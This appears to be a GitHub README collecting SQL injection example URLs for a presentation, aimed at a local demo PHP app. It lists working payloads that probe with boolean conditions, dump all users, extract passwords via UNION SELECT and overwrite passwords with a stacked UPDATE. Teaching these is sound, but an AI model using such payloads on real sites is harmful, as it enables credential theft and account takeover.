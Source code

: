 sql-injection-examples
======================

Few examples of sql injection for an upcoming presentation on the topic.

# Normal access
http://localhost/sql-injection-example/basic.php?id=1

# If this works, the app may be vulnerable
http://localhost/sql-injection-example/basic.php?id=3 AND 1=1

# Can I print more users then?
http://localhost/sql-injection-example/basic.php?id=2 OR id=3

# Can I get them all?
http://localhost/sql-injection-example/basic.php?id=2 OR id is not null

# Uhm... so can I get their password? --> you need to know that the table is called user
http://localhost/sql-injection-example/basic.php?id=2 union select password from user;

# Or maybe I can choose what their password should be? d8578edf8458ce06fbc5bb76a58c5ca4 being the md5("qwerty")
http://localhost/sql-injection-example/basic.php?id=2; UPDATE user SET password 'd8578edf8458ce06fbc5bb76a58c5ca4';--

# Updating of password
http://localhost/sql-injection-example/chg_pwd.php?id=2 OR 1=1&pwd="d8578edf8458ce06fbc5bb76a58c5ca4"





